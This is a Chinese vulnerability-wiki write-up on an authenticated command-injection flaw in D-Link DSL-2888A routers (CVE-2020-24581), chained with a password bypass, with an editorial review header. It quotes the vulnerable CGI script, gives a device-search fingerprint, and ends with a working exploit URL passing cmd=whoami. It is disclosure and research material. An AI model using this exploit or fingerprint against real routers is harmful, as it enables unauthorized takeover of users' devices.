


# D-Link DSL-2888A 已认证命令执行（CVE-2020-24581）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DSL-2888A
- 本文讨论：CVE-2020-24581
- 版本、权限与配置前提：&lt;AU_2.31_V1.1.47ae55；24581需认证，24580可组合
- 资料类型：源码/链式PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题/文件名DSL28881A多一位，与正文2888A冲突
- tr '%20' ' '按字符替换，不是URL解码/去除空格，解释不准确
- 登录后显示error=fail却称成功需说明会话副作用；无官方来源/修复矩阵
- 已落实的文本修订：“# D-Link DSL-28881A 远程命令执行”改为“# D-Link DSL-2888A 远程命令执行”；“这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行”改为“这里通过 cut -d = -f 3 取第三个等号分段。tr "%20" " " 会把字符 %、2、0 分别替换为空格，并不是按百分号转义序列进行 URL 解码；随后把所得字符串作为命令执行”；标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 认证绕过会话行为、版本及源码出处待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接




跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里通过 cut -d = -f 3 取第三个等号分段。tr "%20" " " 会把字符 %、2、0 分别替换为空格，并不是按百分号转义序列进行 URL 解码；随后把所得字符串作为命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js**

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了

所以EXP为:

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
